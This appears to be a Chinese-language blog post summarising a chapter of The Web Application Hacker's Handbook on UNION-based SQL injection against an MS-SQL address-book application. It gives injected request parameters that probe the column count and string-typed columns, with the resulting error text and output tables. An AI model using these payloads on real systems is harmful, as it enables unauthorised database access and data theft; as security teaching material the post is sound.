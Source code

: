 ```yaml
---
layout:     post
title:      Chapter 9 Attacking Data Stores(2)-Injecting into SQL(3)
subtitle:   SQL注入(3)
date:       2020-03-15
author:     D
header-img: 
catalog: true
mermaid: true
tags: [web hacking]
---
```


参考:**The Web Application Hackers Handbook** Chapter 9

# 1.Extracting Data with UNION

让我们看一下针对MS-SQL数据库的攻击，但使用的方法适用于所有数据库技术。 考虑一个通讯录应用程序，该应用程序允许用户维护联系人列表以及查询和更新其详细信息。 当用户在通讯录中搜索名为Matthew的联系人时，其浏览器将发布以下参数：
```
Name=Matthew
```
并且该应用程序返回以下结果：

|NAME|E-MAIL|
|-|-|
|Matthew Adamson|handytrick@gmail.com|

首先，我们需要确定所需的列数。 测试单个列会导致错误消息：
```
Name=Matthew'%20union%20select%20null--

All queries combined using a UNION, INTERSECT or EXCEPT operator must
have an equal number of expressions in their target lists.
```
我们添加第二个NULL，并且发生相同的错误。 因此，我们继续添加NULL，直到执行查询为止，并在结果表中生成一个附加项：
```
Name=Matthew'%20union%20select%20null,null,null,null,null--
```

|NAME|E-MAIL|
|-|-|
|Matthew Adamson|handytrick@gmail.com|
|[empty]|[empty]|

现在，我们验证查询中的第一列是否包含字符串数据：
```
Name=Matthew'%20union%20select%20'a',null,null,null,null--
```
